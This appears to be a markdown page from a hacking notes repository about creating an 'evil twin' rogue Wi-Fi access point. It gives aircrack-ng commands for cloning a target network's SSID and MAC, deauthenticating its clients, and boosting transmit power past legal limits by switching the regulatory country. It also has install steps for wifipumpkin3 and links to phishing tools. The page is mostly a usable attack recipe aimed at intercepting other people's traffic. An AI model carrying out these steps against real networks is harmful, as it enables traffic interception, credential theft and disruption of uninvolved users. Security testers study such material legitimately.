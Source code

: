 # Evil Twin

Our first task will be to creating an evil twin access point. Many new hackers are anxious to crack Wi-Fi passwords to gain some free bandwidth (don't worry, we'll get to that), but there are so many other Wi-Fi hacks that are far more powerful and put so much more at risk than a bit of bandwidth.

## What's an Evil Twin AP?

The evil twin AP is an access point that looks and acts just like a legitimate AP (using the same SSID) and entices the end-user to connect to our access point. Our aircrack-ng suite has a tool, airbase-ng, that can be used to convert our wireless adapter into an access point. This is a powerful client-side hack that will enable us to see all of the traffic from the client and conduct a man-in-the middle attack.

Many corporate offices, hotels, coffee shops, etc. employ this type of security.

## Aircrack-ng Suite

Start `airmon-ng`.

```
# airmon-ng start wlan0
```

Start `airodump-ng` then wait for SSID to display.

```
# airodump-ng mon0
```

Create new AP with same SSID and mac.

```
# airbase-ng -a <bssid> --essid <ssid> -c <channel> mon0
```

Deauth your target

```
# aireplay-ng --deauth 0 -a <bssid>
```

Run your AP at max power (27 is max 'legal' power)

```
# iwconfig wlan0 txpower 27
```

Bypass restrictions is by setting to another domain/country then wait for connection

```
# iw reg set BO

# iwconfig wlan0 txpower 30
```

## EAPHammer

## Wifiphisher

TODO: Provide more usage coverage for Wifiphisher with use cases

## Wifipumpkin

TODO: Provide more usage coverage for Wifipumpkin with use cases

```
$ sudo apt install wifipumpkin3
```

```
$ sudo apt install python3.7-dev libssl-dev libffi-dev build-essential python3.7
```

```
$ git clone https://github.com/P0cL4bs/wifipumpkin3.git && \
cd wifipumpkin3 && sudo make install
```

---
## References

### Source Repositories

- [eaphammer](https://github.com/s0lst1c3/eaphammer)

- [wifiphisher](https://github.com/wifiphisher/wifiphisher)

- [Wifipumpkin](https://github.com/P0cL4bs/wifipumpkin3)

- [koutto: Pi-PwnBox-RogueAP](https://github.com/koutto/pi-pwnbox-rogueap)

### Wifipumpkin

- [Wifipumpkin3 Documentation](https://wifipumpkin3.github.io/docs/getting-started)

### Hacktricks

- [Hacktricks: Pentesting Wi-Fi](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/pentesting-wifi/index.html

### Black Hills Information Security

- [Black Hills Information Security: How to Install and Perform Wi-Fi Attacks with Wifiphisher](https://www.blackhillsinfosec.com/how-to-install-and-perform-wi-fi-attacks-with-wifiphisher/)

### Penetration Testing Tools

- [Penetration Testing Tools: How to create a Rogue Access Point (connected to the Internet through Tor)](https://miloserdov.org/?p=1591)